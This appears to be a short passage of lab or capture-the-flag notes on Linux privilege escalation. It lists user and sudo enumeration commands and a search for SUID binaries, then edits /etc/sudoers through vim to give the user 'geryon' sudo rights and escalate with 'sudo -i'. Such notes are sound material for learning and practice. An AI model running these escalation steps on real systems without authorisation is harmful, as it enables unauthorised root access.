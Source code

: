 ##### whoami Actually?
```
w
```
![Pasted image 20250605001359](../../zzAttachments/Pasted%20image%2020250605001359.png)

##### Check sudo privileges
```
sudo -l
```
![Pasted image 20250605001448](../../zzAttachments/Pasted%20image%2020250605001448.png)

##### SUID bits set
```
find / -type f -perm -4000 2>/dev/null
```
![Pasted image 20250605001640](../../zzAttachments/Pasted%20image%2020250605001640.png)

##### Use vim to add geryon to the sudoers group
```
vim /etc/sudoers
:wq!
sudo -i
```
